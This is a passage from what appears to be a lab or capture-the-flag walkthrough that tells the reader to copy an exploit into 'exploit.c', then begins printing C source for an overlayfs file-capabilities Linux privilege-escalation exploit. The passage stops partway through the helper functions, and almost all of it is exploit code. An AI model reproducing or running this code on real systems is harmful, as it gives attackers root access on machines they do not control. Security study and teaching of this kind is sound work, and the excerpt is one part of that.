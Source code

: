 ```
Now we can just copy the exploit and save in a file maybe `exploit.c` exploit code below .

```
#define _GNU_SOURCE
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <fcntl.h>
#include <err.h>
#include <errno.h>
#include <sched.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <sys/wait.h>
#include <sys/mount.h>

//#include <attr/xattr.h>
//#include <sys/xattr.h>
int setxattr(const char *path, const char *name, const void *value, size_t size, int flags);


#define DIR_BASE    "./ovlcap"
#define DIR_WORK    DIR_BASE "/work"
#define DIR_LOWER   DIR_BASE "/lower"
#define DIR_UPPER   DIR_BASE "/upper"
#define DIR_MERGE   DIR_BASE "/merge"
#define BIN_MERGE   DIR_MERGE "/magic"
#define BIN_UPPER   DIR_UPPER "/magic"


static void xmkdir(const char *path, mode_t mode)
{
    if (mkdir(path, mode) == -1 && errno != EEXIST)
        err(1, "mkdir %s", path);
}

static void xwritefile(const char *path, const char *data)
{
    int fd = open(path, O_WRONLY);
    if (fd == -1)
        err(1, "open %s", path);
    ssize_t len = (ssize_t) strlen(data);
    if (write(fd, data, len) != len)
        err(1, "write %s", path);
    close(fd);
}

static void xcopyfile(const char *src, const char *dst, mode_t mode)
{
    int fi, fo;

    if ((fi = open(src, O_RDONLY)) == -1)
        err(1, "open %s", src);
    if ((fo = open(dst, O_WRONLY | O_CREAT, mode)) == -1)
        err(1, "open %s", dst);
